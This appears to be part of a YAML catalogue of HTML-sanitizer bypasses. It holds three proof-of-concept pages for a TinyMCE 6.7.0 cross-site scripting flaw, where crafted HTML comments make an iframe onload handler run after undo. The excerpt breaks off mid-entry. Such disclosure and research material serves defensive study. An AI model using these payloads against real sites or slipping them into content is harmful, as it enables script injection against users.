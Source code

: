 ```yaml
      - safari-browser
      - comment-tag
      - noscript-tag
      - any-attr
      - func-call-parameter
    pocs:
      - description: The [tinymce](https://github.com/tinymce/tinymce) editor was replacing characters to `null` after the HTML sanitization. For this to work, the undo button has to be pressed.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/tinymce/6.7.0/tinymce.min.js"></script>
          <script>
            tinymce.init({
              selector: "#editor",
              plugins: "media",
              toolbar: "undo redo | bold italic | alignleft aligncenter alignright | media",
              menubar: false,
            });
          </script>

          <!-- user input -->
          <textarea id="editor">
            <!--data-mce-selected="x"-><iframe onload=alert(document.domain)>-->
            <h1>Steps to reproduce</h1>
            1. Enter random text in this editor area<br/>
            2. Undo -> XSS
          </textarea>
      - code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/tinymce/6.7.0/tinymce.min.js"></script>
          <script>
            tinymce.init({
              selector: "#editor",
              plugins: "media",
              toolbar: "undo redo | bold italic | alignleft aligncenter alignright | media",
              menubar: false,
            });
          </script>

          <!-- user input -->
          <textarea id="editor">
            <!--<br data-mce-bogus="all">-><iframe onload=alert(document.domain)>-->
            <h1>Steps to reproduce</h1>
            1. Enter random text in this editor area<br/>
            2. Undo -> XSS
          </textarea>
      - code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/tinymce/6.7.0/tinymce.min.js"></script>
          <script>
            tinymce.init({
              selector: "#editor",
              plugins: "media",
              toolbar: "undo redo | bold italic | alignleft aligncenter alignright | media",
              menubar: false,
            });
          </script>

          <!-- user input -->
          <!--[U+FEFF]-><iframe onload=alert(document.domain)>-->
          <textarea id="editor">
            <!--﻿-><iframe onload=alert(document.domain)>-->
            <h1>Steps to reproduce</h1>
```